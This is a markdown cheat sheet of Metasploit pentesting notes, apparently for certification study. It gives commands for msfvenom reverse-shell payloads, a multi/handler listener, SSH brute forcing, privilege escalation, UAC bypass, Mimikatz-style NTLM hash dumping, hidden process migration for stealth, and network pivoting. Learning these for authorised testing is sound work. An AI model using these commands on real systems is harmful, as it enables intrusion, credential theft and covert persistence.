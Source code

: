 ```yaml
---
layout: blank
---
```



### The Basics
**Setup and Navigate Metasploit**
- Database isn't enabled by default
	- `sudo msfdb init`, `sudo systemctl enable postgresql`
		- To restart database, stop postgresql and then `sudo msfdb reinit`
	- Run `db_status` in the console to check
- Workspaces
	- `workspace` - create workspaces when pentesting a client 
	- `db_nmap` - works like regular nmap, but stores results in the db
		- Query db with `hosts` for hosts and `services` for services
- `show -h` to show all modules, like `exploits`, `payloads`, and `auxiliary`
	- Showing payloads is nice; default is usually reverse tcp shel

**Auxiliary Modules**
- Used for external attacks, like enumeration, scanning, fuzzing, sniffing, etc.
- `search` to search through the modules, with `type` to specify the module type
	- For example: `search type:auxiliary smb` or `search Apache 2.4.41`
	- When some exploits have multiple targets, and you have a m
- `use` to use a module with a given index from a search
	- For example: `use /auxiliary/scanner/ssh/ssh_login` to brute force ssh
- `info` to get information about the current module
- `show options` to give options that the module can use
- `set {option} {parameter}` to set an option to a given parameter, like RHOSTS to an IP
	- `unset` to unset
	- can set files by providing the path
	- can set payloads by providing the path (`/payload/linux/x86/shell_reverse_tcp`)
- `vulns` to see if any vulnerabilities have been automatically detected
- `creds` to show any discovered creds
- `run -j` to run a job in the background and create a session for one client
- `sessions` can switch between shells
	- Use CTRL+Z to exit a shell but keep it in the background
	- `sessions -l` to list available sessions
	- `sessions -i {session_number}` to switch (interact) with a session

**SearchSploit**
- `sudo apt install exploitdb`
- Contains archive of all exploit code from exploitdb
- Can search through exploits with `searchsploit {string}`
- Can copy exploits to home directory with `-m`

### Using Payloads 

**Staged/Non-Stated Payloads**
- Non-staged: payload is sent along with the exploit
	- No use of `/`  means that it's non-staged (e.g. `shell_reverse_tcp`)
- Staged: Exploit the machine for a callback, then give a larger payload
	- `/` indicates a staged payload (e.g. `shell/reverse_tcp`)
- `show payloads` to see a list of all payloads
	- `set payload {index}` to set a payload after showing them

**Meterpreter**
- Multi-function payload residing entirely in memory
- `help` to display commands in shell
- `sysinfo`  and `getuid` to gather system data
- put `l` before any command to run it on kali
- Channels:
	- Basically the same thing as `sessions` in msf
	- `shell` and Ctrl+Z to push a channel to the background
	- `channel -l` to list all channels
	- `channel -i 1` to interact with a channel
- `download {file_path}` to download a file from the system
- `upload {local_file_path} {resulting_file_path}` to upload a file to the system
- `search -f {filename}` to search from `/` for a file named `{filename}`

**Executable Payloads**
- `msfvenom` can generate malicious executables
- `msfvenom -l payloads --platform {os (windows)} --arch {arch (x86)}` to list payloads
- `msfvenom -p {path_to_payload} LHOST={IP} LPORT={kali_listening_port} -f {filetype (exe)} -o {output_executable}` to generate an executable
- To get an interactive shell via a staged payload, we can use Metasploit's *multi/handler*
	- `use multi/handler`
	- Staged payloads will now give us an interactive shell
- Steps:
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<port> -f c`
		- We only get one meterpreter shell, so consider these instead:
			- `windows/x64/shell_reverse_tcp`
			- `linux/x64/shell_reverse_tcp`
	- `msfconsole`
	- `use exploit/multi/handler`
	- `set payload linux/x86/meterpreter/reverse_tcp`
	- `set LHOST 10.0.0.1`
	- `set LPORT 4444`
	- `exploit -j`

### Post-Exploitation

**Meterpreter Post-Exploitation Features**

- `idletime` to see how long it's been since the system was used (e.g. don't run shit until empty)
- `getsystem` to attempt to elevate privileges to NT AUTHORITY\\SYSTEM
- `migrate {process_id}` - injects meterpreter into another process for stealth and persistence
	- If no good processes exist, create one with `execute -H -f {process (notepad)}`
		- `-H` hides the process, so no visual representation will be present

**Post-Exploitation Modules**
- After injecting ourselves into another process, our privilege level drops, so we need to escalate
- `exploit/windows/local/bypassuac_sdclt` is good for UAC bypassing on Windows
	- We can set our session to the session running the shell (from Ctrl+Z -> `bg`)
- Can load extensions directly inside the active session using `load`
	- `load kiwi` to load an extension equivalent to Mimikatz
	- `help` to view commands, like `creds_msv` to dump NTLM hashes
- Can search for post exploitation modules with `search post ...`
	- These only require a meterpreter session id

**Pivoting with Metasploit**
- After getting on a machine, we can enumerate the network in a number of ways
- If we find an internal IP from something like `ipconfig`, we can pivot to it with the following:
	- `bg` to background the session in meterpreter and `route add {IP.IP.IP.0/24} {session_number}` to add a route to an internal network reachable through a compromised host
		- We can remove old routes with `route flush`
	- We can then set RHOSTS to an internal IP and use something like `auxiliary/scanner/portscan/tcp` to scan the open ports on the internal IP
	- Running exploits is the exact same--it just required the route set up in Metasploit
- Can also use `autoroute` module to set up pivot routes
	- `use multi/manage/autoroute`
	- `set session {session_ID}` - can list all sessions with `sessions -l`
- Can also combine routes with `server/socks_proxy`
	- `use auxiliary/server/socks_proxy`
	- Then set `VERSION`, `SRVHOST` as localhost, and `run -j`
		- This will probably return the port 1080
	- Then add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`
	- Can then use proxychains to run commands, such as `xfreerdp`
		- `sudo proxychains xfreerdp /v:{internal_target_IP} /u:luiza`
- Can also use `portfwd`
	- Use a meterpreter session with `sessions -i {session #}`
	- Then, port forward with `portfwd add -l {local_port} -p {remote_port} -r {int_IP}`

### Automation

**Resource Scripts**
- Can chain together metasploit commands and Ruby code
	- Put all commands in a script (.rc) and pass it to msfconsole with `-r`
	- Can configure AutoRunScript to automatically execute a module after the script has been run - `set AutoRunScript {module (/post/windows/manage/migrate)}`
	- `set ExitOnSession` to false to keep the multi/handler listening after a connection
	- Then, run with `-z` and `-j` to put the job in the background and stop us from interacting
- Prebuilt available at `/usr/share/metasploit-framework/scripts/resource`